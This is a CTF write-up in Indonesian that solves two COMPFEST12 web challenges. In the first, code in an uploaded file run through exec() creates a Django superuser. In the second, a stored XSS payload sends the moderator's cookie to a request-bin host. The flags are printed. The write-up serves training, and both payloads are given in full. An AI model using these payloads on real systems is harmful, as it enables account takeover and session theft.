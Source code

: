 # Web Exploitation

## Daftar isi : 
| Web Exploitation  |
| ------------- |
| [Super Judge](#1-super-judge-757-pts)|
| [Regular Forum Page](#2-regular-forum-page-864-pts)|

## 1. Super Judge [757 pts]
### Soal :  
![HTML Page Source](https://i.ibb.co/RQY0HHq/index.png)

### Pembahasan : 
Kita diberikan source code dari website tersebut.
![HTML Page Source](https://i.ibb.co/BPVBK5q/source.png)

Kita disuruh untuk merubah user kita menjadi superuser untuk bisa mendapatkan flag. 
Karena fitur upload telah disediakan, langsung saja kita upload file "asal" untuk melihat hasil.
![Upload](https://i.ibb.co/n8nrcNp/exec.png)

Ternyata kita mendapatkan pesan debug error, dan jika kita melihat lebih detail, terdapat baris kode dengan fungsi exec(). Berarti file yang kita upload ini akan dibaca source-codenya, lalu akan dieksekusi melalui fungsi exec(). Di situ juga terdapat komenan kode untuk membuat super user. Langsung saja kita copy payload tersebut dan menggantinya dengan user kita :D.

```
from django.contrib.auth 
import get_user_model
User = get_user_model()
User.objects.create_superuser('wuvel', 'admin@myproject.com', 'password')
```

Setelah user kita (wuvel) menjadi super user, langsung saja kita kunjungi laman admin pada direktori /admin. Masukkan super user yang telah kita buat, wuvel:password. 

![Login](https://i.ibb.co/y82WN0m/admin.png)

![Admin](https://i.ibb.co/SskrYGN/adminview.png)

Nice! Kita telah menjadi admin. Hal yang perlu kita lakukan hanyalah mengupload file python dengan benar. Kita gunakan fungsi print saja agar mudah dan upload!

![Flag](https://i.ibb.co/tDH3cVV/flag.png)

<details>
<summary>Flag?</summary>
COMPFEST12{f4k3_5up312_u53r_hUH_?}
</details>

## 2. Regular Forum Page [864 pts]
### Soal :  
![HTML Page Source](https://i.ibb.co/sQDfLgr/index.png)

### Pembahasan : 
Terdapat forum dimana kita bisa membuat post dan post tersebut dapat dilihat oleh member lain. 
![Home](https://i.ibb.co/Snspmfw/Screenshot-1.png)

![Home2](https://i.ibb.co/MP0fkc5/Screenshot-2.png

![Home3](https://i.ibb.co/cT1kjqB/Screenshot-3.png)

Pada deskripsi soal telah disebutkan bahwa "Mods will check often in to prevent ...". Dari kalimat tersebut sudah jelas bahwa challenge ini adalah seputar XSS, karena admin akan melihat payload kita, dan tugas kita adalah mendapatkan cookie milih "Mods" ini.

Langsung saja kita masukkan payload XSS untuk mengambil cookie pada kolom konten.

Payload:
```
<script>new Image().src="https://link-request-bin/?c="+document.cookie;<script>
```

Dan, payload kita masuk dan akan dieksekusi oleh browser.
![Payload](https://i.ibb.co/JrGTKZC/Screenshot-4.png)

Selanjutnya, kita hanya perlu menunggu pada website request bin (HTTP Request dumper?) muncul cookie admin saat admin mengunjungi laman forum kita.

Dan... Berhasil!
![Berhasil](https://i.ibb.co/17d4SLn/Screenshot-5.png)

<details>
<summary>Flag?</summary>
COMPFEST12{html_t4g_1s_n0t_C4s3_5ent1t1v3_5bc733a9f8}
</details>
